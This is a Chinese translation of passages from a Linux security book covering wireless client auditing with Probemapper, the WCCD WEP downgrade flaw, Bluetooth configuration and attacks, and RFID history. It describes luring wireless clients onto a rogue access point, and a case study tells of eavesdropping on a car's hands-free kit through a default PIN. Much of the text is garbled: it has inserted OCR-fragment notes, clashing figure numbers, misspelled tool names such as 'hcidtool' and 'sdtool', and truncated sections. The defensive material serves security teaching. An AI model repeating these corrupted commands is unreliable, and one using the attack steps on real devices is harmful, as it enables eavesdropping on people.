虽然有很多工具可以帮助追踪流氓 `AP`，但帮助检测流氓客户端的工具有限。`Probemapper` 由 `Christopher Low` 编写，并可以在 `http://securitystartshere.org/page-downloads.htm` 下载，它不仅可以帮助追踪无线客户端及其探测请求，还可以通过客户端 `WNIC` 发出的无线信号强度来估计无线客户端的物理距离。图 `8-23` 显示了 `Probemapper` 的显示，带有无线客户端的信号强度指示。

## Hacking Exposed Linux：Linux 安全秘密与解决方案

```
interface
ath0 (IEEE 802.11g), SSID: "   ", nick: n/a nick: n/a n/a
wireless
link quality: 93/94
signal level: -35 dbm (0.32 dBm)
...
```

从这个列表中，你可以看到 `Kismet` 可以检测针对无线网络使用的许多顶级攻击类别。`Kismet` 也可以作为分布式 `WIDS` 平台。通过设置 `K` 无人机组件并将其指向运行 `Kismet` 服务器组件（本身是一个客户端服务器应用程序）的中央服务器，你可以轻松地建立一个具有多个监控和中央报告能力的单一企业级 `WIDS`。无人机需要的系统资源非常有限，可以安装在刷了 `Linux` 系统的 `Linksys RTW54g` 上。

## 无线客户端审计

| 流行度 | 4 |
| :--- | :--- |
| 简单性 | 8 |
| 影响 | 8 |
| 风险评级 | 7 |

本节概述了攻击者在接触组织客户端时会采取的各种步骤。以下是不同的阶段：
- 无线客户端指纹识别
- 无线客户端分析
- 无线客户端连接

### 276 攻防 Linux：Linux 安全秘密与解决方案

会话 视图 书签 设置 帮助

`Probemapper` 为服务 `./probemapper v1.0`

(c) 2006 `Christopher Low` / c.low[-at-]securitystartshere.net

| 客户端 MAC | 关联状态 | ESSID | 功率 | 最大值 | 包数 | 速率(包/分) |
|---|---|---|---|---|---|---|
| 0:14:55:65:55:3e | N2WIRE732 | 97 | 97 | 2 | 1.19 | |
| 00:0e:35:38:60:22 | 00:10:6c:2b:42:4a | NetworkWireless | 128 | 157 | 20 | 8.05 |
| 00:90:96:34:60:5e | 00:14:93:41:55:6e | 2WIRE397 | 124 | 134 | 10 | 3.28 |

图 `8-24` 客户端分析模式下的 `Probemapper`

图 `8-24` 中所示功率允许审计人员检查无线客户端距离 `Probem` 基站是近还是远。通过使用 `Probemapper` 的目标客户端分析模式（见图 `8-25`），审计人员现在可以选择针对某一个特定的无线客户端并仅显示该无线客户端。在此模式下，工具还将尝试确定其配置方案中定义的加密方式，以及在适用情况下的身份验证方案（见图 `8-26`）。这将有助于后续阶段的工作，即你尝试让无线客户端自动连接到你设置的 `AP`（接入点）时。

既然客户端配置已经识别出来，审计人员就可以启动目标模式。在此模式下，`Probemapper` 每当尝试从目标客户端获取探测请求（`probe`）时，都会询问用户是否应该在 `Probemapper` 位置启用主模式（`master mode`），以便允许目标客户端与其连接。它还支持在开启主模式之前后运行不同的命令行。

在这一阶段，你正尝试测试某些无线客户端，这些客户端在其无线网络配置中定义了 `OPN` 网络，它们将连接到与客户端配置中定义的名称完全相同的 `AP`。为了使此测试成功，由 `Probemapper` 确定的配置在工具的身份验证（`Auth`）列下应指示为 `OPN/WEP` 加密（`Enc`）和 `OS`（开放系统身份验证）。

通过设置一台带有主模式无线卡的笔记本并使其对客户端的探测请求做出响应，你可以让该客户端连接到你。这是通过将审计机器的 `SSID` 设置为 `Probemapper` 在目标客户端分析阶段确定的探测 `SSID` 值来实现的。你可以通过在审计机器上设置 `DHCP` 服务器为目标分配 `IP` 地址，并获得层层连通性。随后可以进行端口扫描以确定无线客户端是否有任何开放端口。


对于使用开放系统身份验证的 WEP 配置的客户端，一种部分影响大量无线网卡（WNIC）用户的漏洞被称为 WEP 通信降级（WCCD）漏洞。该漏洞允许攻击者跟踪带有漏洞的硬件/驱动程序的无线请求，这些设备连接到一个配置为匹配使用 WEP 的客户端配置 SSID 的 AP 上。该漏洞由 ThinkSECURE 在 2006 年发现（`http://www.wireless.org/entries/show/WVE-2006-0003` 和 `http://securitystartup.org/page-vulns-wccd.html`），影响 Windows 平台上的 Intel Century 驱动，可能影响其他设备。

ThinkSECURE 发现，基于 Intel 的芯片组将连接到一个与其探测配置 SSID 相同的 AP，即使该 AP 未配置为使用 WEP，但客户端配置要求使用 WEP（无论是 64 位还是 128 位）。当 AP 向客户端返回关联响应时，客户端将“转储连接以使用无加密，并通过发送数据流量（通常是 DHCP 请求）开始与 AP 通信”。因此，在漏洞客户端成功通过身份验证和关联后，实现了层三的连通性。

```
[root@localhost rest]# /probemapper -i eth0 -d widifying -s 00:0e:35:38:60:22|
```

图 8-25 Probemapper 和目标客户端分析

## 第 8 章：无线网络

ProbeMapper 为服务 `./probemapper` v1.0

© 2006 Christopher Low / 邮箱: at@securitystartup.net

| 客户端 MAC | 关联状态 | ESSID | 功率 | 最大值 | 加密 | 验证 | 包数 | 速率(包/分) |
|---|---|---|---|---|---|---|---|---|

| 00:0c:35:38:69:22 | N | NetworkWireless | 133 | 160 | OPN/WEP | OS | 40 | |

图 2-26 用于确定加密和身份验证方案的 Probmapper

使用 Probemapper 审计无线客户端应检查……（注：源代码 OCR 文本似乎碎片或重复，但逻辑流遵循提供的章节）。

## 攻防 Linux：Linux 安全秘密与解决方案

### 总结

本章介绍了黑客利用 Linux 平台作为进行无线攻击/审计基础的多种方法，以及他们如何创建自己的硬件来增强其黑客/审计能力。

由于某些活动（如 RFMON 操作和帧注入）需要特殊的运行模式，本章还深入了在 Linux 平台上实施任何类型黑客活动所需的原生硬件和驱动组合。

更重要的是，无线网络管理员需要理解无线射频（RF）的细节及其无线网络正在使用的上层协议，这是因为攻击者在确定如何利用它们之前，总是从理解规范开始的。更多理解 RF 和 EMR 的帮助可以在 OSSTMM 和 OWSE 中找到，两者均可在 `http://www.isecom.org` 获取。

# 第 9 章

### 案例研究

每当莉莉（Lilly）看到旁边车里司机惊讶的神情时，她总是忍不住咯咯笑。蓝牙耳机和车载设备的无处不在，这不仅为全球驾驶员带来了免提通话功能，也给莉莉带来了一个新游戏。自从她发现了“汽车窃听”（car-whispering）后，她找到了一种新的乐趣来源，甚至让她开始期待红灯出现。

她特意缓慢地向下一个交通灯行驶，然后在灯光变黄时停下，这样她就可以玩游戏了。她用拇指按下手机上的按钮，迅速启动了蓝牙扫描。她运气真不错！旁边的汽车配备了带配密钥（passkey）的免提通话功能。她迅速选择绑定该设备。她使用配密钥 `1234` 进行配对。成功了。配密钥通常是标准密码之一；人们很少更改默认配密钥。接着，她开始听。从她自己的车里，她可以听到那辆车里那对夫妇之间的对话。他们完全不知道她的存在。

绿灯亮了，她必须踩下油门才能跟上那辆跑车，否则就会丢失连接。但当那对夫妇的对话变得太无聊时，她决定吓吓他们。她按下语音按钮，发出一声毛骨悚然的尖叫。

莎拉（Sarah）和亚姆（Adam）在结束一天课程后的回家途中正享受着彼此，这时，诡异的尖叫声从汽车扬声器中传出。他们跳了起来，亚姆滑出了道路，从雨水槽中弹出并撞在了树上。

莉莉在驶过时咯咯笑着。

# 第 9 章：输入/输出设备

今天大多数计算机都带有蓝牙接口。启用它可以允许键盘、扬声器和麦克风无线连接到计算机。然而，这些优势可能带来缺点。你是否想过有人会从空中截获你刚刚在无线键盘上输入的密码？你是否确定你的蓝牙麦克风不会被对手通过你的 VoIP 软件窃听你与同事的讨论？

启用蓝牙接口可能导致一些不希望的副作用：你的电脑对其他人可见；例如，某些蓝牙朋友可能会发起查询，你的电脑可能会宣布其蓝牙名称。由于此类公告包含计算机的设备名称，你的设备可能会引起不必要的注意。

本章主要关注蓝牙技术。在过去的几年里，这项技术变得越来越流行，今天已成为连接输入/输出（I/O）设备的行业标准。然而，仍然可以使用不使用蓝牙的设备。例如，在无线键盘和鼠标领域，供应商仍经常实现专有技术。有时此类设备也可以配置使用蓝牙。

通常，获取此类专有标准的准确信息非常复杂。它取决于特定厂商，需要对特定型号进行研究。因此，本章仅关注通蓝牙技术。但由于介绍的许多攻击场景也可能发生在专有技术中，本章也将成为研究特定厂商问题的良好起点。

# 关于蓝牙

蓝牙是一种根据 IEEE 802.15.1 规范的行业标准。它用于在手机、计算机、个人数字助理、打印机、数码相机等设备之间交换信息。蓝牙使用全球免许可的短程射频，为低功耗和低实现成本而设计。

蓝牙有三类设备，如表 9-1 所示，根据最大允许功率和范围进行定义。通过无线通信，所有参与设备不需要视距。只要接收到的传输足够强大，设备可以位于不同的房间。

| 类别 | 最大允许功率 | 大致范围 |
|---|---|---|
| 1 | 100 mW | 约 100 米 |
| 2 | 2.5 mW | 约 10 米 |
| 3 | 1 mW | 约 1 米 |
| 表 9-1 | 蓝牙设备类别 | |

# 破解 Linux 暴露：Linux 安全秘密与解决方案

在蓝牙适配器上添加外部定向天线可以扩展这些范围，因为它允许信号发射集中在一个特定方向，而不是分散在所有方向。我们所知的没有哪个供应商提供此类外部天线，但当然，你可以通过 DIY 的方式修改项（例如，参见 `http://trifinite.org/trifinite_stuff_bluetooth.html`）。

蓝牙可用于各种应用，因此整个堆栈由不同的层和协议组成。接下来的几节将重点介绍与蓝牙特殊兴趣小组（SIG）开发的标准相关的详细信息。更多信息请访问 `http://www.bluetooth.org/`。

# 蓝牙配置 (Bluetooth Profiles)

配置（Profiles）描述了蓝牙执行无线电传输的多种常见场景。这改进了不同制造商产品之间的互操作性，因为配置定义了所有涉及强制协议的选项。表 9-2 显示了部分（不是全部）定义的配置。配置可能依赖于其他配置。图 9-1 说明了不同配置之间的依赖关系。

# 第 9 章：输入/输出设备

| 配置名称 | 代码 | 目的 |
|---|---|---|
| 通用访问 | GAP | 定义与蓝牙设备发现相关的通用程序。它还定义了与不同安全模型相关的程序。 |
| 服务发现应用 | SDAP | 定义与发现远程设备上的应用以及检索有关服务的任何信息相关的程序。 |
| 串口 | SPP | 定义了两个设备之间使用 RFCOMM 建立模拟串口连接所需的蓝牙设备需求。 |
| 拨号网络 | DNP | 定义了拨号网络的需求。主要使用场景将是连接手机和计算机拨接入互联网服务器或在计算机上接收数据电话。 |
| 个人局域网 | PAN | 定义了构建个人局域网的需求。 |
| 通用对象交换 | GOEP | 定义蓝牙对象交换的基础知识。 |
| 对象推送 | OPP | 定义了设备之间推送和拉取的程序。依赖于 GOEP。 |
| 文件传输 | FTP | 定义了设备之间传输文件的程序。依赖于 GOEP。 |
| 同步 | SP | 定义允许设备同步日历或联系人信息的程序。依赖于 GOEP。 |
| 基础图像 | BIP | 定义了设备之间传输图片的程序。依赖于 GOEP。 |
| 基础打印 | BPP | 定义了基本打印服务的程序，用于从移动设备打印短电子邮件和短信。依赖于 GOEP。 |
| 表 9-2 | 蓝牙配置 | |

# 蓝牙协议栈中的实体

理解参与蓝牙协议栈的各种实体对于构建安全的安装环境至关重要。图 9-2 显示了协议栈的组成。

# 射频收发器

蓝牙的最底层描述了在 2.4 GHz 频段运行的收发器需求。在 2.402 GHz 到 2.480 GHz 之间有 79 个不同的频率，间隔均为 1 MHz。

# 链路控制器

链路控制器是蓝牙的物理层。链路控制器位于射频之上，处理数据包和链路。该层还负责通过唯一的蓝牙设备地址对设备进行寻址。这些地址长度为 48 位，类似于以太网中的 MAC 地址。每个设备还可能有一个友好名称，该名称通常在用户界面中显示，而不是物理地址。

# 链路管理协议

链路管理协议 (`LMP`) 使用底层 LC 的服务，并负责链路建立、身份验证、加密和配对。`LMP` 允许两个设备之间进行配对、身份验证，并对相互传输的数据进行加密。

# 主机控制器接口

主机控制器接口 (`HCI`) 为基带控制器和链路管理器提供了命令接口，并允许访问硬件状态和控制寄存器。该接口为访问硬件蓝牙能力提供了一种种统一的方法。

`HCI` 通常由三个实体组成：

- 实际的蓝牙硬件设备，通常被称为*主机控制器*（Host Controller）。此外，该设备还包含实现 `HCI` 命令的 `HCI` 固件。

- `HCI` 驱动程序是相关的实体。它能够向固件发送命令，并接收发生在主机控制器中的事件。

- 为了将主机控制器中的固件和 `HCI` 驱动连接在一起，需要一个传输层。两者都可以通过各种传输协议连接，但现在主机控制器通常通过 USB 连接。

# 逻辑链路控制与适配协议

逻辑链路控制与适配协议 (`L2CAP`) 用于蓝牙协议栈内部，为用户数据提供面向帧的传输。数据既可以采用面向连接的方式传输（在两个支持蓝牙的设备之间），也可以采用无连接的方式进行广播数据。应用程序以变长度的帧将数据提交给 `L2CAP` 服务。这些帧将被递送到远程设备，相应的应用程序可以使用相同的形式使用这些数据。

`L2CAP` 是围绕通道（channels）的概念构建的。每个通道都有自己的标识符 (`CID`)，并代表设备上的一个端点。这允许不同的应用程序相互分离。你可以将通道想象成类似于 TCP 和 UDP 中的端口。到目前为止的层基本上是蓝牙通信所需的所有内容。然而，在这些基础之上构建的额外协议进一步增强了蓝牙的功能。

# 服务发现协议

`L2CAP` 提供了可以区分不同服务的通道。服务发现协议 (`SDP`) 帮助发现设备内注册的服务。它还能够列出可用服务的特征。

# 射频通信

射频通信 (`RFCOMM`) 是一组简单的传输协议，允许在 `L2CAP` 层上仿真 RS232 串口端口。它可以仿真多个串口端口——最多支持 60 个并发连接。RS232 接口的九条电路通过 `RFCOMM` 得到仿真。

`SPP` 配置要求设备能够支持 `RFCOMM`。它是许多其他配置的基础，例如 `DNP`，通过它手机可以像旧式调制解调器一样被访问，并通过发送适当的 AT 命令与远程互联网服务器协商 PPP 会话来接入互联网。

# 蓝牙网络封装协议

蓝牙网络封装协议 (`BENEP`) 可用于在 `L2CAP` 上封装各种网络协议，如 IP 或 IPX。该协议的设计目标之一是将开销尽可能降低，以最大限地利用可用带宽。`BENEP` 能够处理各种网络配置，因为它封装以太网帧，反之亦然。在封装和解封装过程中，BNEP 头部将替换以太网头部。负载永远不会被修改。

`BENEP` 与 `PAN` 配置密切相关。该配置定义了构建个人局域网所需的所有内容。此类网络通常涉及最多七个客户端（称为个人局域网用户，或 `PANU`）和一个主设备。后者能够在在 `PANU` 之间转发数据包，并将自形成网络连接到另一个网络（如互联网）。

# 对象交换

对象交换 (`OBEX`) 是一种用于在设备之间交换二进制对象（如名片或日历条目）的通信协议。它不仅限于蓝牙，还可以与红外通信 (`IrDA`) 和 SyncML 一工作。`OBEX` 与 HTTP 的相似之处在于，它为客户端连接到服务器并请求和提供对象提供了一个可靠的传输机制。在蓝牙中，`OBEX` 通常在 `L2CAP/RFCOMM` 之上实现。

> Sync/ Synchronization Markup Language（同步/标记语言）通常用于同步计算机和移动设备之间的联系人和日历信息。由于开发工作由开放移动联盟（OMA）接管，它现在正式称为开放移动联盟数据同步与设备管理。

`OBEX` 是 `GOEP`, `OPP`, `FTP`, `SP`, `BIP` 和 `BPP` 配置的基础，并允许实现各种服务，例如向移动设备传输文件、同步个人信息管理器 (`PIM`) 应用程序和数据，以及从移动设备打印到打印机。

# 伪造设备实体

| 流行程度 | 7 |
| :--- | :--- |
| 简单性 | 10 |
| 影响 | 5 |
| 风险等级 | 7 |

蓝牙设备有分配的设备名称。如果你需要选择一个设备进行交互，你总是根据设备名称做出决定。这种安全措施相当容易被。攻击者只需要使用完全相同的设备名称即可。

# 建立设备配对

一对设备可以建立信任关系。它们需要学习一个共享密钥（通常称为口令或 PIN 码）以进行配对（这是建立信任关系的术语）。如果两个设备已配对，它们就能通过密码学方式验证自己的身份，并可能对通过空气传输的数据进行加密。

在配对过程中，将根据提交的 PIN 码生成链路密钥。如果设备名称更改，配对是永久的，因为涉及的每个设备都会在其文件系统中保存链路密钥和物理地址。然而，某些内存较小的设备只能存储有限的设备配对信息。一旦建立的配对被存储并在每次连接时重用，如果其中一个……你需要删除配对。

# 蓝牙认证与密钥生成

`SAFER+` 算法用于身份验证和密钥生成。这是一种 128 位块密码，用于加密 `LMP` 上的通信。主机控制器守护进程 (`hcid`) 能够处理配对事件。该进程通常在 `/etc/bluetooth/hcid.conf` 中配置。重要的选项如下列表所示。

```
options {
  [...]
  security user;
  pin_helper /usr/bin/bluepin;
  [...]
}
device {
  [...]
  name "faroth";
  auth enable;
  [...]
};
```

`security` 选项控制从哪里获取 PIN。如果设置为 `user`，则将执行指定的 `pin_helper` 来向用户询问 PIN 码。在大多数发行版中，`usr/bin/bluepin` 是一个 Python 应用程序，会在用户的 X 会话中显示一个图形输入框。`name` 选项指定了计算机的友好名称。`auth` 选项激活了蓝牙协议栈内置的认证。

通过这种方式配置系统后，你可以建立一次配对，并在未来的连接尝试中信任你正在与自己的设备通信。

# 破解攻防：Linux 秘密与解决方案

默认情况下，无线通信通常是不加密的。蓝牙也是如此。攻击者可以窃听你的设备之间交换的所有数据。当通过蓝牙传输机密数据时，这尤其有问题。

# 启用加密

为了防止窃听攻击，请对蓝牙设备使用加密。在 Linux `hcid` 中，通过在 `hcid.conf` 中指定 `encrypt` 选项可以轻松强制加密。

```
device {
  [...]
  encrypt enable;
  [...]
};
```

## 第 9 章：输入/输出设备 291

一旦你指定了此选项并重启 `hcid`，你将在 `hcidconfig` 的输出中遇到 `ENCRYPT` 标志。这意味着将不允许未加密的通信。

## 蓝牙安全模式

蓝牙设备可以在三种安全模式之一中运行：

- 安全模式 1：无安全

- 安全模式 2：服务级强制安全

- 安全模式 3：链路级强制安全

模式 2 和 3 之间的主要区别在于安全程序启动的时机。在模式 3 中，安全措施在 `L2CAP` 通道打开之前就已经到位。在模式 2 中，安全措施随着通道的开启而启动。

如果你在 `hcidconfig` 的输出中看到 `AUTH` 和 `ENCRYPT` 标志，你处于安全模式 3，这是最安全的操作类型。

## 信息收集

| 流行度: | 6 |
| 简单性: | 8 |
| 影响: | 5 |
| 风险评分: | 6 |

攻击者可以尝试通过发布设备查询来枚举附近所有的蓝牙设备。设备枚举通常是攻击者枚举所有感兴趣的目标的第一步。在 Linux 上，你可以使用 `hcidtool` 执行设备查询（使用 `scan` 选项）；它会列出附近所有响应设备查询的设备。

## 不要回答设备查询

只要你的电脑运行着启用了 `iscan` 选项的 `hcid`，它就会回答设备查询。若要禁用响应，请使用此设置：

```
device {
    ...
    iscan disable;
    ...
};
```

## 暴露的 Linux：Linux 安全秘密与解决方案

要测试设备可见性，请使用 `hcitool` 列出范围内可见设备的设备地址和友好名称。请记住，运行 `hcitool` 的电脑不会参与此设备查询，因此你可能需要从另一台中立的计算机尝试设备查询。以下是一个设备查询示例：

```
host:~# hcitool scan
Scanning ...
  00:xx:xx:xx:C8:28      K750i
  00:xx:xx:xx:DB:FA      Z2600
```

## 防止服务发现

如果你的 Linux 运行着 `sdpd`，也可以通过蓝牙提供服务。所有提供任何蓝牙服务的应用程序都可以向此守护进程注册。意图连接到你某个服务的设备会执行服务发现。该发现将由 `sdpd` 宣告。如果你不打算从电脑提供任何服务（例如，如果你想连接到其他机器上的服务），请完全不要运行 `sdpd`。

`sdtool` 命令执行服务发现并查询特定服务的特征。在大多数情况下，服务发现将导致相当大的输出。下一个列表显示了一个使用 `OBEX` 文件传输服务、`L2CAP`、`RFCOMM` 和 `OBEX` 协议的示例结果。


```
host:~# sdtool browse 00:xx:xx:xx:C8:28
...
Service Name: OBEX File Transfer
Service ReHandle: 0x10006
Service Class ID List:
  "OBEX File Transfer" (0x01106)
Protocol Descriptor List:
  "L2CAP" (0x0100)
  "RFCOMM" (0x00003)
  Channel: 6
  "OBEX" (0x0008)
Profile Descriptor List:
  "OBEX File Transfer" (0x01106)
  Version: 0x0100
...
```

## 滥用厂商实现中的漏洞

| 流行度 | 6 |
| --- | --- |
| 简单性 | 6 |
| 影响 | 10 |
| 风险评分 | 7 |

软件可能存在漏洞——这适用于 Linux 的蓝牙实现也适用于设备固件。某些漏洞允许攻击者绕过安全防护或导致拒绝服务。

## 蓝牙劫持 (Bluejacking)

许多设备（如手机、PDA 或笔记本电脑）允许通过 OBEX 发送和接收 VCard。如果名称字段中指定了任意消息，这些名片也可以用于聊天。从技术上来说，这是完全无害的。从社会角度来看，被“蓝牙劫持”的人会感到困惑，因为他们不知道发生了什么，并可能认为自己的设备出现了故障。可以想象用户可能会被此类信息欺骗。

## 蓝牙窃取 (Bluesnarfing)

蓝牙窃取描述通过安全漏洞从蓝牙设备中盗取信息。这种攻击发现于2003年，因为某些设备的 OBEX 实现存在安全问题，允许对日历、地址录、电子邮件和短信进行未经授权的访问。在 2003 年到 2004 年间，许多手机被发现容易受到此类攻击的侵害。

## 蓝牙漏洞的应对措施

即使配置得当，蓝牙设备驱动程序或固件中的安全相关漏洞仍然可能存在。应该遵循某些最佳实践，以减少因软件错误导致严重损害的风险。

**不需要禁用蓝牙** 通常情况下，除非你真的需要，否则完全禁用蓝牙是一个好主意。

**关注安全公告** 订阅所有相关设备厂商的安全公告邮件列表。还要订阅如 BugTraq 之类的独立邮件列表。

**应用固件升级** 如果固件升级修复了设备的安全问题，请为蓝牙设备应用固件升级。

### 总结

输入/输出 (I/O) 设备是……（注意：文本根据提供的页面继续）

### Hacking Exposed Linux: 安全秘密与解决方案

在此之前——根据某些说法——他被克格勃（KGB）绑架并被迫回到俄罗斯在一个 *sharashka* 工作，这是苏联古拉格劳动营系统中秘密研发实验室的非正式名称（http://en.wikipedia.org/wiki/Sharashka）。

特雷门（Theremin）还发明了“物体（The Thing）”。

“物体”是一种使用射频（RF）传输技术的被动式监听设备。特雷门为苏联政府发明了“物体”作为间谍工具。它通过声波振动振膜来工作。振动略微改变了谐器的形状，从而调制了无线频率。

尽管这个设备是一个被动的、隐蔽的监听设备，而非识别标签，但被称为第一种窃听设备的“物体”是 RFID 技术的前身，因为就像现代 RFID 标签一样，“物体”只有在被来自外部源发射的无线频率激活时才会运行。在任何时候，“物体”都处于休眠状态，并且在该状态下几乎无法被探测。

1946年，苏联小学生向美国大使艾弗尔·哈里曼（Averell Harriman）赠送了一个美国国玺的两脚复制品。随后，它被放在了莫斯科的斯帕索房子（Spaso House），这是所有驻苏联美国大使居住的外交建筑。1952年的一次常规安全检查中，探员在封章内发现了一个监听（或“窃听”）设备。结果发现，该窃听设备在被发现之前已经运行了六年。

在探员发现窃听设备并人员确定其用途后，他们的发现被提交给了联合国。展示后不久，探员报告在整个东欧和苏联的美国住宅和使馆中发现了100多个类似的设备。

关于这种被动窃听设备的一个在今天仍然有效的重要点是：用于定位 RF 通信设备的标准检测方法没有发现或识别出“物体”，它未被发现多年。现代 RFID 系统今天可能存在同样的风险。

## 敌我识别系统 (IFF)

下一次早期应用是敌我识别（IFF）系统。1934年，英国航空部的 H. E. 维梅里斯（H. E. Wimeris）接触了迪顿公园（Ditton Park）无线研究负责人沃森-瓦特（Watson-Watt），请求制造一种“死亡射线”。当时，维梅里斯想象德国拥有这种能力，他觉得英国航空部在技术争夺中落后了。

沃森-瓦特博士实际上在实验室测试了一种设备，并知道要制造一个满足维梅里斯请求的设备需要巨大的能量。沃森-瓦特认为，与其研究死亡射线，不如将重点放在通过雷达和 IFF 识别飞机的能力上。因此，沃森-瓦特博士迅速回复了维梅里斯的查询，内容如下：

“与此同时，注意力正转向仍然困难但前景不那么好的无线电探测问题，需要时将提交关于反射无线电波探测方法的多种考量。（由沃森-瓦特撰写的《通过无线电方法探测飞机》，1935年2月12日）”

## 第 10 章：RFID——无线射频识别

英国人在 1939 年左右发明了 IFF 应器，并在第二次世界大战的英国战役期间使用它来区分友军和敌军舰。1940年，英国启用了一套主动系统（指定为 Mk I）。Mk I 使用每架飞机碰撞到的接收器板产生振荡，并在接收到雷达信号时充当发射器。由于使用的雷达频率多种，它必须跨越雷达波段进行机械调谐，以便被任何照射它的雷达触发。这种机械调谐的要求和其他因素限制了它的性能。

然而，在这种技术出现之前，地面人员只能通过各个飞机识别手册中显示的轮廓来识别飞机。在光线不足或夜间，识别非常困难，甚至可能不可能。

### RFID 组件

一个 RFID 系统由几个组件组成：标签（tags）、标签读取器（tag readers）、边缘服务器、中间件和应用软件。*标签（tag）*是标识令牌，可以附在被识别物体上，也可以是 ID 卡的一部分。*标签读取器（tag reader）*是通过 RF 与标签通信的外围设备。读取器种类多样，从简单的串行或 USB 连接的收发器，到能够自主查询标签并通过以太网上的 TCP/IP 与计算机通信的智能嵌入式系统。*边缘服务器（edge server）*是一个连接到一个或多个标签读取器的计算机系统。边缘服务器通过网络协议与*中间件（middleware）*通信，而中间件反过来又与应用软件对接。

系统可能还包括对象命名服务器（ONS），它们使用传统的数据连接介质与伙伴网络共享此类 RFID 数据交易。对于全球性组织而言，传输的数据量可能每天达到百万次交易，这将带来对高端数据库系统的需求。

然而，许多目前的 RFID 系统简单得多，特别是在供应链管理领域之外。在较简单的系统中，应用软件直接与标签读取器通信，跳过边缘服务器和中间件。

### RFID 的目的

简单 RFID 系统的目的是允许数据通过移动设备（称为*标签（tag）*）传输，该标签由 RFID 读取器读取并根据特定应用程序的需求进行处理。标签传输的数据可以提供识别信息或位置信息，或关于被标记产品的具体信息（如价格、颜色、购买日期等），取决于实施实施系统的特定安装和设计目标。

在典型的 RFID 系统中，每个物体都配备一个小型、廉价的标签。标签包含至少一个带有唯一标识符（UID）的数字内存芯片以及一个 RFID 接口。许多标签包含额外功能，如可编程内存和用于认证的加密硬件。调谐器，封装在天线中，发射并驱动标签以便收发器读取和写入数据。

### Hacking Exposed Linux: 安全秘密与解决方案

传输层加密。调谐器，封装在天线中，发射并驱动标签以便收发器读取和写入数据。你可以将此比作手电筒和镜子。手电筒发射光形式的能量。镜子反射能量。同样，RFID 读取器将发送 RF 信号，标签将其作为能量源传输数据。

读取器接收到标签的数据后，会对电路中的数据进行解码，然后传递给主机计算机进行额外的处理和逻辑判断。

RFID 标签有多种形式。某些具有工厂预设的 ID。另一些提供一次写入或可重写的任意内存。此外，某些标签基于标准逻辑实现加密。最后，某些标签实际上是带有接触接口的加密智能卡。此类智能卡可以提供 3DES（连续加密三次块密码）和使用数据加密标准（DES）密码的 RSA 加密，或带有操作系统和用户应用程序的 CPU——甚至是带有接触式（ISO 1443）RFID 接口的 Java 卡。

### 被动标签

被动标签（图 10-1）在 RFID 应用中应用最广泛。被动 RFID 标签没有内部电源，因为它们由 RFID 读取器通过负载调制、反射或反散射技术供电。入射的 RF 信号驱动标签中的集成电路，并在信号调制（有时放大）后发送响应。被动 RFID 芯片的天线必须设计为同时接收和传输数据。由于标签内部的模拟数字电路必须由读取器发射的 RF 信号供电，从标签到读取器的返回传输能量有限。因此，传输距离仍然是被动标签的问题。

FCC 对射频设备的功率标准限制了标签范围在二十英尺以内。大多数应用（如距离卡）仅在读取器几英寸范围内有效。

### 主动标签

主动 RFID 标签与被动标签的区别在于它们具有内部电源。该电源为电路供电并允许主动标签启动数据传输，而被动标签必须由读取器供电。主动标签也更加可靠，并且可以在更高的功率水平下传输。这使得主动标签一种

# 第 10 章：RFID–无线频率识别



这是远距离使用（可达 300 英尺）或在高射频干扰区域区域的良好选择。一些非常先进的主动衣物采用网格路由技术来中继来自读取器范围外标签的信号。

# RFID 的用途

根据媒体报道，RFID 是下一项重大技术；然而，大多数人并没有注意到。事实是，RFID 标签作为一种流失控制的形式被用于许多地方。目前，它们提供了身份验证、完整性检查和报警控制。作为身份验证控制，它们可以携带识别信息，扫描器可以将其转换为权限，例如过收费站的权限，或杂货店结账时的费用。当用于完整性检查时，标签有助于货物在供应链中移动，特别是在使用第三方运输系统时，以及服装和珠宝、电子产品等高单价物品，以防止物品在未先去激活的情况下离开商店。RFID 标签在流失控制领域不断发现新角色，这从它们所集成的产品和服务中显而易见。

# 支持 RFID 的护照

护照中的 RFID 标签可能是安全领域中讨论最多的 RFID 应用。第一批 RFID 护照于 1998 年在马来西亚使用。它们不仅提供视觉身份识别，还记录所有的飞行详情。随后，国际社区为国际民航空组织（ICAO）内部此类支持 RFID 的护照的互操作性制定了规范和开放标准。ICAO 将此类护照称为可读旅行证（MRTDs）。

2006 年，欧盟成员国和美国在新护照中包含了符合 ICAO MRTD 标准的 RFID 标签。美国在 2005 年生产了 1000 万份护照，2006 年估计为 1300 万份。标签存储了与护照打印相同的信息，以及护照持有者的数字照片和护照发布的加密签名。此外，ICAO 指定了可选数据，包括生物识别图像以及指纹和虹膜的模板。每个 ICAO 成员国都可以决定使用这些可选功能中的哪些。所有欧盟成员国都强制要求在其新发的护照中添加两幅指纹图像。在德国，2007 年 11 月 1 日之后发布的所有护照都在 RFID 上存储了加密的数字指纹图像（见图 10-2）。

MRTD 包含许多安全措施，每种措施都是为了应对特定的威胁而设计的。几乎所有的安全措施都是可选的，取决于特定的护照签国。例如，美国护照将包含一个薄金属衬层，使得在护照关闭时，未经授权的读取器更难扫描其信息。部署 RFID 扫描的许多风险之一是，许多国家的护照有效期为十年。在这一时间跨度内，保护数据的加密技术可能会被破解，或者 RFID 天线连接处承受的机械应力可能超过承受范围。


图 10-2 带有被动式 RFID 芯片的德国护照

# 第 10 章：RFID–无线频率识别

# 票务

世界杯和奥运会在会在票务中嵌入 RFID 技术。所有购票者都经过了预识别，他们的名字与 RFID 门票上的唯一 ID 关联。除了增加对伪门票的防护外，这些信息还可以传递给多个方，他们将研究参加活动的人员、监控特定人群或跟踪他们在整个活动期间的位置。

# 其他当前的 RFID 用途

RFID 技术的其他当前用途包括：

- 文档识别
- 公共交通票务
- RFID 现金卡（用于自动贩卖机）
- 图书卡
- 电子道路收费
- 滑雪证
- 制造业
- 供应链管理
- 产品跟踪
- 动物识别
- 近距离建筑准入
- 人体植入物

